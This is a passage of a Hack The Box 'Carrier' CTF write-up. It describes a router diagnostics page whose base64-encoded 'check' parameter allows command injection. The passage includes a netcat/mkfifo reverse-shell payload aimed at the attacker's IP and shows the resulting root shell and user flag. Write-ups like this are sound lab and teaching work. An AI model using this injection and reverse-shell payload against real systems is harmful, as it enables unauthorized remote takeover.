 ![Dashboard](/assets/images/htb-writeup-carrier/dashboard.png)

### Tickets

The tickets section contains a hint about what we need to do once we get access to the router (more on that in the next section)

![Tickets](/assets/images/htb-writeup-carrier/tickets.png)

Ticket #6 contains the hint:

> ... one of their VIP is having issues connecting by FTP to an important server in the 10.120.15.0/24 network

So it seems that there's something important on the 10.120.15.0/24 network. The ticket indicates the user is using the unencrypted FTP protocol so we'll be able to sniff the credentials if we can redirect traffic through the router.

### Diagnostics command injection

Based on the output we see when we click on the `Verify status` button, we can see that it's running `ps` grepped with `quagga`. It's actually running the command on the `r1` router since the `web` server builds an ssh connection to `r1` first then runs the command there.

![Diagnostics](/assets/images/htb-writeup-carrier/diag.png)

The HTML on the diagnostics page contains a base64 encoded value in the `check` field:

![HTML source](/assets/images/htb-writeup-carrier/source.png)

The hidden field `cXVhZ2dh` base64 decodes to `quagga`. We can control the grep parameter by modifying the `check` parameter in the HTTP POST request and gain code execution.

For `check`, we will use the `; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.23 4444 >/tmp/f` value encoded in base64:

![RCE](/assets/images/htb-writeup-carrier/injection.png)

We then get a reverse shell using netcat:

```
root@violentunicorn:~# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.105] 48918
/bin/sh: 0: can't access tty; job control turned off
# python3 -c 'import pty;pty.spawn("/bin/bash")'
root@r1:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@r1:~# ls
ls
test_intercept.pcap  user.txt
root@r1:~# cat user.txt
cat user.txt
5649c4...
```
